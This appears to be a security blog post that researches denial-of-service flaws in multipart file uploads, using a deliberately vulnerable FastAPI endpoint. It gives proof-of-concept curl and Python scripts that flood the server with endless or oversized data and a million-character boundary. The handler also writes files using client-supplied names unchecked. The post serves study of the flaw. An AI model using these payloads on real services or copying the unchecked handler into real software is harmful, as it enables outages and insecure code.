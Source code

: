 ```yaml
---
layout: post
title: Research DoS Vulnerability via multipart/form-data
date: 2024-10-30
categories: ["1-Day-Analysis", "Python"]
---
```


# Summary

I have read a vulnerability about DoS Vulnerability via multipart/form-data, so to deep understand of vulnerability i will research in the direction build code have vulnerability and poc. About DoS vulnerability, this is vulnerability will causing system disruption, with upload via multipart/data hacker will upload large file to application. System when process large file will inscrease cpu and mem causing system disruption. 

# Scenario 1: DoS via file upload

I have a code run a api for upload file with python

```
from fastapi import FastAPI, File, UploadFile, HTTPException
import uvicorn
import os

app = FastAPI()

UPLOAD_DIR = "./uploads"
os.makedirs(UPLOAD_DIR, exist_ok=True)

@app.post("/upload/")
async def upload_file(file: UploadFile = File(...)):
    # read and save file
    try:
        file_location = os.path.join(UPLOAD_DIR, file.filename)
        with open(file_location, "wb") as buffer:
            buffer.write(await file.read())
        return {"filename": file.filename}
    except Exception as e:
        raise HTTPException(status_code=500, detail="Error saving file")

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)

```

This code allow upload any file and save file to folder "uploads". There aren't any check file size so i can upload file with big size. To perform upload file, i use file with `</dev/urandom`. 

`/dev/urandom` is special file of linux, provide random data unlimited. When read '/dev/urandom' system will generate random bytes. Because this is data unlimited, so curl will continous read data and send data until server is interupted or when server cannot accept any data. 

POC with curl when use Linux:

```
curl -X POST http://localhost:8000/upload/ -F 'file=@/dev/urandom'
```

POC with python code: 

```
import requests

def dos_attack_upload():
    url = "http://localhost:8000/upload/"
    # Create data with big size
    large_data = b"A" * 1024 * 1024 * 1024  # 1GB

    files = {
        "file": ("large_file.txt", large_data, "text/plain")
    }

    # Send request post to uplaod file
    response = requests.post(url, files=files)
    
    print("Status Code:", response.status_code)
    print("Response:", response.json())

if __name__ == "__main__":
    dos_attack_upload()

```

# Scenario 2: DoS via multipart boundry

Multipart boundry is a part in the form upload file, If boundry not handle correctly will cause server use very much CPU and Mem to handle. This is can lead to dos vulnerability. 

I will use code upload above with not check any boundry when perform upload.

```
from fastapi import FastAPI, File, UploadFile, HTTPException
import uvicorn
import os

app = FastAPI()

UPLOAD_DIR = "./uploads"
os.makedirs(UPLOAD_DIR, exist_ok=True)

@app.post("/upload/")
async def upload_file(file: UploadFile = File(...)):
    # read and save file
    try:
        file_location = os.path.join(UPLOAD_DIR, file.filename)
        with open(file_location, "wb") as buffer:
            buffer.write(await file.read())
        return {"filename": file.filename}
    except Exception as e:
        raise HTTPException(status_code=500, detail="Error saving file")

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)
```

With POC, i will create boundary have 1 million character and after change boundary to form-data.

```
import requests

def dos_attack_boundary():
    url = "http://localhost:8000/upload/"
    
    # Create long boundary with 1 million character.
    long_boundary = "-" * 1000000 

    # set header for boundary
    headers = {
        "Content-Type": f"multipart/form-data; boundary={long_boundary}"
    }

    data = (
        f"--{long_boundary}\r\n"
        f'Content-Disposition: form-data; name="file"; filename="dos_test.txt"\r\n'
        f"Content-Type: text/plain\r\n\r\n"
        f"This is a test file content.\r\n"
        f"--{long_boundary}--\r\n"
    )

    # Send request upload file with long boundrary
    response = requests.post(url, data=data, headers=headers)
    
    print("Status Code:", response.status_code)
    print("Response:", response.text)

if __name__ == "__main__":
    dos_attack_boundary()
```

